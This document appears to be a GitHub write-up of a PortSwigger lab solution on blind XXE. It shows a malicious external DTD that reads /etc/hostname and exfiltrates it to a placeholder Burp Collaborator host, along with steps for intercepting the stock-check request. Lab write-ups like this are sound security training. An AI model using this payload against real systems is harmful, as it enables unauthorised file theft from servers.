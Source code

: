 ## Exploiting blind XXE to exfiltrate data using a malicious external DTD

## Solution

Create a malicious DTD -

On the exploit server create a malicious DTD file with the following contents,

<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;

Host this malicious.dtd file in our exploit server.

Click "Go to exploit server" and save the malicious DTD file on your server. Click "View exploit" and take a note of the URL



<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/061074f5-c74c-47d6-9822-a3c6d2cdbc84">

You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.


<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/f46b964e-6e30-4753-a311-d35a571e5d0f">

Go back to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again.

<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/acda9d64-2c87-49b1-8e9f-e4d1f78bd8b9">

<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/890642da-2bb0-4020-a28e-237376c0ad6f">


<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/b9ee4515-305e-470d-9b1a-fd0f31072480">

